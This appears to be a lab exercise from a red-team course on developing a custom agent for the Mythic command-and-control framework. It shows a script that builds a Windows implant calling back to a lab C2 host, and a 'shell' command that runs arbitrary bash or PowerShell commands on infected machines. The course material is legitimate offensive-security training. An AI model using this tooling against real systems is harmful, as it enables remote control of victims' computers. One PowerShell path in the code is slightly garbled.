 ## Exercise 2 - Create Initial Agent 

### dev-desktop.lab
This sequence of events happens on the Windows `dev-desktop.lab` host.

Now we're going to build our initial agent. The general flow for building is captured [here](https://docs.mythic-c2.net/message-flow#what-happens-for-building-payloads):

{{<mermaid>}}
sequenceDiagram
    participant O as Operator
    participant M as Mythic
    participant C as C2 Profile
    participant P as Payload Container
    participant B as Compiler
    O -->> O: Selects Payload Options
    O ->>+ M: Sends Build Request
    M -->> M: Looks up all Components
    M ->> M: Registers Payload
    M -->>- O: Indicate that build has started
    loop C2 Profiles
        M -->+ C: Invoke OPSEC Check
        C ->>- M: Return Result
    end
    M ->>+ P: Forward Build Parameters
    P ->> P: Parse Parameters
    loop create_tasking
        P -->> P: Stamp in Parameters
        P -->> B: Build Payload
        B -->> P: Return Payload or Error
    end
    Note over P: Finish Building
    P -->>- M: Send finished Payload
    M ->> M: Updates Payload build status
    M -->> O: Update with new Build Status
{{< /mermaid >}}

We select and pass in all of our build and c2 configurations which all comes down to the agent's `async def build(self) -> BuildResponse:` function.

This is where you can add agent code to your `agent_code` folder. 

### Faking out an agent

If you don't want to build an agent yet, but still want to see how it would look in the UI, we can use an RPC call within our `build` function to pre-create a callback that you can task.

```python
from mythic_payloadtype_container.MythicRPC import *

create_payload = await MythicRPC().execute(
    "create_callback", payload_uuid=self.uuid, c2_profile="http"
)
```

This is really handy for messing around with new commands within the UI since you don't have to actually build and execute an agent to start interacting with it.

1. `.\start_hercules_exercise2.ps1`

`hercules-Exercise2` has the `build` function updated to automatically create a callback as well as a few commands that we'll look at.

2. In Mythic, you should see a new agent called `hercules-exercise2`. Create a payload with this agent and see a callback automatically registered.

If you don't want to manually go through the process of creating a payload in the UI each time, we can script this out with the `mythic` PyPi package:

```python
import asyncio
import logging

from mythic import mythic


async def main():
    mythic_login_username = "mythic_admin"
    mythic_login_password = "mythic_password"
    mythic_host = "mythic.lab"

    callback_host = mythic_host
    callback_port = 80

    print(
        f"[*] Connecting to Mythic at {mythic_host} with username {mythic_login_username}"
    )
    mythic_instance = await mythic.login(
        username=mythic_login_username,
        password=mythic_login_password,
        server_ip=mythic_host,
        server_port=7443,
        logging_level=logging.WARNING,
    )

    # ################ Create a Payload ################
    print(
        f"[*] Creating hercules agent that will callback to {callback_host} on port {callback_port}"
    )
    resp = await mythic.create_payload(
        mythic=mythic_instance,
        payload_type_name="hercules-exercise2",
        filename="hercules.exe",
        operating_system="Windows",
        include_all_commands=True,
        c2_profiles=[
            {
                "c2_profile": "http",
                "c2_profile_parameters": {
                    "callback_host": callback_host,
                    "callback_port": str(callback_port),
                },
            }
        ],
        build_parameters=[
            {"name": "Architecture", "value": "AMD_x64"},
        ],
        return_on_complete=False,
    )
try:
    asyncio.run(main())
except Exception as e:
    pass
```

### Creating a new command

Now let's make a new command, `shell`. Normally, the `shell` command really is just a specific way of running a program on disk (`/bin/bash`, `cmd.exe`, `PowerShell.exe`, etc) with specific arguments. So, we're going to create `shell` as a special kind of command that the agent doesn't actually know about. 

1. Make a new file called `shell.py` (or anything really, the name doesn't matter) in `hercules-Exercise2\mythic\agent_functions\`.
2. Add in the base class definitions:

```python
from mythic_payloadtype_container.MythicCommandBase import *
import shlex
from mythic_payloadtype_container.MythicRPC import *

class ShellArguments(TaskArguments):
    def __init__(self, command_line, **kwargs):
        super().__init__(command_line, **kwargs)
        self.args = []

    async def parse_arguments(self):
        pass


class ShellCommand(CommandBase):
    cmd = "shell"
    needs_admin = False
    help_cmd = "shell [command]"
    description = "Execute a shell command with 'bash -c' or 'cmd.exe /c'"
    version = 1
    author = "@xorrior"
    argument_class = ShellArguments
    attackmapping = ["T1059.004"]
    supported_ui_features = ["callback_table:shell"]
    attributes = CommandAttributes(
        supported_os=[SupportedOS.MacOS, SupportedOS.Linux, SupportedOS.Windows],
        builtin=True,
        suggested_command=True,
    )

    async def create_tasking(self, task: MythicTask) -> MythicTask:
        return task

    async def process_response(self, response: AgentResponse):
        pass
```

Notice how we have a `ShellArguments` class that subtasks `TaskArguments` and we have a `ShellCommand` class that subclasses the `CommandBase` class. We link these two together via the `ShellCommand`'s `argument_class` attribute. Right now this command doesn't take any `named` arguments - compare this to the `run` command that takes in a named `path` parameter and `args`. 

`supported_ui_features` allows us to hook into some of Mythic's UI shortcuts (like for file downloads/uploads through the file browser). The `callback_table:*` features allow you to issue the task to multiple callbacks at the same time via the `callback_table`.

The real magic happens in the `create_tasking` function - once we return from this function, we're normally going to enter the `Submitted` state, which means an agent can check in and fetch the task. For us, we want to make sure that went the agent gets the task that it sees `run` rather than `shell` so we'll add the following line:

```
task.command_name = "run"
```

We should also make sure we adjust the parameters so that we properly call the `run` command. We can use the `task.args.add_arg` function to add additional arguments (and `task.args.remove_arg` to remove them if necessary). We also get access to a lot of contextual data through the `task` parameter. We can access our arguments through `task.args`, but we can also access callback information in `task.callback`. For our `shell` command, we need to adjust the program we run based on if we're on Windows or Linux/macOS, so we need to see the selected OS when we built the payload:

3. Add in the following in the `create_tasking` function:
```python
passed_args = shlex.split(task.args.command_line)
if task.callback.payload["os"] == "Windows":
    task.args.add_arg(
        "path", "C:\\Windows\\System32\WindowsPowerShell\\v1. 0\\powershell.exe"
    )
    passed_args.insert(0, "/c")
else:
    task.args.add_arg("path", "/bin/bash")
    passed_args.insert(0, "-c")
task.args.add_arg("args", passed_args, type=ParameterType.Array)
task.display_params = task.args.get_arg("path") + " " + " ".join(passed_args)
```

Here we add the `path` argument for `/bin/bash` or `Powershell` based on our payload's OS field. By default, when you add a new parameter it is of the `String` type. For `shell`, we'll want one `String` for the path, but then the rest of the arguments need to be passed in as an Array, so we'll need to set `type=ParameterType.Array`.

The last thing you'll notice is that we set the `display_params` for the task. JSON is really handy for automation and computers, but not great when trying to quickly look over a list of tasks. So, you can adjust what the user actually sees to be something a bit cleaner. In this case, we simply set it to the path to the program followed by all of the arguments.

In order to get this new command to exist in Mythic's interface, we need to stop our `python3 mythic_service.py` then start it up again. You'll see a message in the UI that the payload has re-synced.
